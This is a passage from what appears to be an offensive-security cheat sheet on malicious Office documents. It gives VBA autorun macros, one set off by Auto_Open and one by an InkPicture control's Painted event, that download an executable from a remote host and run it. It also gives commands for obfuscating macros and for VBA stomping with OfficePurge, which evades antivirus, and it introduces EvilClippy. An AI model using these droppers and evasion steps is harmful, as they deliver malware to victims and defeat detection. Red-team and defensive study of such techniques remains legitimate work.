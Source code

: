 ```vb


Sub Auto_Open()
    DownloadFileA "http://10.10.10.10/macro.exe", "C:\\Users\\Public\\beacon.exe"
End Sub
```

## DOCM - ActiveX-based (InkPicture control, Painted event) Autorun macro

Go to **Developer tab** on ribbon `-> Insert -> More Controls -> Microsoft InkPicture Control` 

```vb
Private Sub InkPicture1_Painted(ByVal hDC As Long, ByVal Rect As MSINKAUTLib.IInkRectangle)
Run = Shell("cmd.exe /c PowerShell (New-Object System.Net.WebClient).DownloadFile('https://<host>/file.exe','file.exe');Start-Process 'file.exe'", vbNormalFocus)
End Sub
```



## VBA Obfuscation

```ps1
# https://www.youtube.com/watch?v=L0DlPOLx2k0
$ git clone https://github.com/bonnetn/vba-obfuscator
$ cat example_macro/download_payload.vba | docker run -i --rm bonnetn/vba-obfuscator /dev/stdin
```

## VBA Purging

**VBA Stomping**: This technique allows attackers to remove compressed VBA code from Office documents and still execute malicious macros without many of the VBA keywords that AV engines had come to rely on for detection. == Removes P-code. 

:warning: VBA stomping is not effective against Excel 97-2003 Workbook (.xls) format.

### OfficePurge
* https://github.com/fireeye/OfficePurge/releases/download/v1.0/OfficePurge.exe

```powershell
OfficePurge.exe -d word -f .\malicious.doc -m NewMacros
OfficePurge.exe -d excel -f .\payroll.xls -m Module1
OfficePurge.exe -d publisher -f .\donuts.pub -m ThisDocument
OfficePurge.exe -d word -f .\malicious.doc -l
```


### EvilClippy

> Evil Clippy uses the OpenMCDF library to manipulate CFBF files. 
> Evil Clippy compiles perfectly fine with the Mono C# compiler and has been tested on Linux, OSX and Windows.
> If you want to manipulate CFBF files manually, then FlexHEX is one of the best editors for this.
